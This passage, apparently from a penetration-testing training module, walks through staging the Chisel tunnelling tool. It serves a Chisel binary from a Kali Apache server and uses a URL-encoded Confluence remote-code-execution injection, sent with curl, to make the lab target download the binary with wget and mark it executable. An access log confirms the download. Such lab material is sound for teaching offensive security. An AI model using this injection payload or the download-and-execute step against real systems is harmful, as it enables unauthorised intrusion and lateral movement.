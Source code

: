 ```
kali@kali:~$ sudo cp $(which chisel) /var/www/html/
kali@kali:~$ 
```

> Listing 1 - Copying the Chisel binary to the Apache2 server folder.

We can then make sure that Apache2 is started on our Kali machine using **systemctl**.

```
kali@kali:~$ sudo systemctl start apache2
[sudo] password for kali: 

kali@kali:~$
```

> Listing 2 - Starting Apache2.

Next, we will build the **wget** command we want to run through the injection on CONFLUENCE01. This command will download the **chisel** binary to **/tmp/chisel** and make it executable:

```
wget 192.168.118.4/chisel -O /tmp/chisel && chmod +x /tmp/chisel
```

> Listing 3 - The Wget payload we use to download the Chisel binary to /tmp/chisel on CONFLUENCE01 and make it executable.

Next, we'll format this command to work with our **curl** Confluence injection payload.

As before, you can modify the specific parts of the URL-encoded RCE payload that you need to, rather than trying to build a new payload from scratch, to avoid formatting difficulties.

```
kali@kali:~$ curl http://192.168.50.63:8090/%24%7Bnew%20javax.script.ScriptEngineManager%28%29.getEngineByName%28%22nashorn%22%29.eval%28%22new%20java.lang.ProcessBuilder%28%29.command%28%27bash%27%2C%27-c%27%2C%27wget%20192.168.118.4/chisel%20-O%20/tmp/chisel%20%26%26%20chmod%20%2Bx%20/tmp/chisel%27%29.start%28%29%22%29%7D/

kali@kali:~$ 
```

> Listing 4 - The Wget payload executed within our cURL Confluence injection command.

The Apache2 log file (**/var/log/apache2/access.log**) eventually shows the request for the Chisel binary coming in:

```
kali@kali:~$ tail -f /var/log/apache2/access.log
...
192.168.50.63 - - [03/Oct/2023:15:53:16 -0400] "GET /chisel HTTP/1.1" 200 8593795 "-" "Wget/1.20.3 (linux-gnu)"
```

> Listing 5 - The request for the Chisel binary hitting our Apache2 server.

Now that we have the Chisel binary on both our Kali machine and the target, we can run them. On the Kali machine, we'll start the binary as a server with the **server** subcommand, along with the bind port (**\--port**) and the **\--reverse** flag to allow the reverse port forward.
